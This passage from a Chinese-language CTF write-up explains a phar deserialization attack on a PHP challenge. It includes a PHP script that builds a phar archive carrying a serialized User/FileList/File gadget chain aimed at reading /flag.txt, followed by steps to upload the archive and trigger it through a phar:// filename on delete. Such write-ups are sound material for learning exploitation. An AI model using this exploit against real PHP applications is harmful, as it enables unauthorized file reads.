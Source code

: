 于是我们可以上传一个`phar`文件，然后点击删除它，触发phar反序列化，

```php
<?php

class User {
    public $db;
}
class FileList
{
    private $files;
    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}

class File
{
    public $filename;

}
$a = new User();
$b = new FileList();
$a->db = $b;

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER();?>');
$phar->setMetadata($a);
$phar->addFromString("1.txt","test");
$phar->stopBuffering();
```

运行代码，生成phar文件，我们上传上去：

![image-20230511200928289](https://s2.loli.net/2023/05/11/pSzyH4nU8f53XC6.png)



然后我们删除它：记得要将**文件名改为phar伪协议格式**：

![image-20230511201006907](https://s2.loli.net/2023/05/11/NdAhFuWskYbrMD3.png)











## [CISCN2019 总决赛 Day2 Web1]Easyweb

<img src="https://s2.loli.net/2023/01/15/fWsc1FQLUeGxrpj.png" alt="image-20230115151136787" style="zoom:33%;" />
